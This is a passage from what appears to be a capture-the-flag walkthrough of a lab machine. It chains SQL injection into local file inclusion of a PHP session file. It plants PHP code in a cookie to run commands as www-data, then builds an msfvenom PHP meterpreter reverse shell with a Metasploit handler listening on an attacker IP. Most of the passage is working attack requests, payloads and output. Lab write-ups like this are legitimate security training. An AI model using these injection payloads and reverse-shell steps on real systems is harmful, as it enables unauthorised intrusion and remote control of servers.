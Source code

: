 ```
Te: trailers
Connection: close
```
Since any cookies we add are appended to the session file, we can create our own arbitrary cookie that contains php code. Then we use the LFI to point to our session file to obtain remote code execution:

```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('whoami')?>;
...

```
Response
```
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Mon, 27 Mar 2023 21:52:42 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 957
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
X-Upstream: 127.0.0.1:8080
...


<div class="container">
<div class="row">
<!-- <div align="center"> -->
PHPSESSID|s:26:"0eeec3brj9f8bs109u6ssli5p3";EXEC|s:27:"=www-data
...
```
By creating an `EXEC` cookie and smuggling `<?php passthru('whoami')?>;` in it, we are able to see we are running arbitrary commands as `www-data`.

### Local File Inclusion to Shell
With RCE established, we will create a PHP meterpreter shell and execute it on the target.

Create a meterpreter shell
```
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.16.12 LPORT=80 > shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1110 bytes
```
Start Metasploit
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 80
LPORT => 80
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.12:80 
```
